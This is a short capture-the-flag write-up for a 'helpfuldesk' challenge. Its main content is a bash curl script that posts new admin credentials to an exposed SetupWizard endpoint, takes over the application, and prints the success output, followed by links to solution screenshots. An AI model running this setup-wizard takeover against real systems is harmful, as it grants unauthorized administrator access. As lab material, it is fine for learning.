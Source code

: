 http://challenge.ctf.games:30598/Setup/SetupWizard

after e, need to make a post request with a username and password to login with.
```bash
#!/bin/bash

# Target URL
TARGET="http://challenge.ctf.games:30598/Setup/SetupWizard"

# New admin credentials
USERNAME="pelle"
PASSWORD="grino"

# Send POST request with the new credentials
response=$(curl -s -o /dev/null -w "%{http_code}" \
  -X POST "$TARGET" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "username=$USERNAME" \
  --data-urlencode "password=$PASSWORD")

# Check the response
if [ "$response" -eq 302 ]; then
  echo "New admin user created successfully! Redirected to SetupComplete."
  echo "Try logging in with username: $USERNAME and password: $PASSWORD"
elif [ "$response" -eq 403 ]; then
  echo "Error: Server already set up. Check if credentials.json exists."
else
  echo "Unexpected response code: $response"
fi
```

```bash
$ bash helpfuldesk.sh
New admin user created successfully! Redirected to SetupComplete.
Try logging in with username: pelle and password: grino
```
![start](start.png)  
*Created: Nov 3, 14:19*

![a](a.png)  
*Created: Nov 3, 14:20*

![b](b.png)  
*Created: Nov 3, 14:22*

![c](c.png)  
*Created: Nov 3, 14:23*

![d](d.png)  
*Created: Nov 3, 14:24*

![e](e.png)  
*Created: Nov 3, 14:26*

![f](f.png)  
*Created: Nov 3, 14:31*

![flag](flag.png)  
*Created: Nov 3, 14:32*

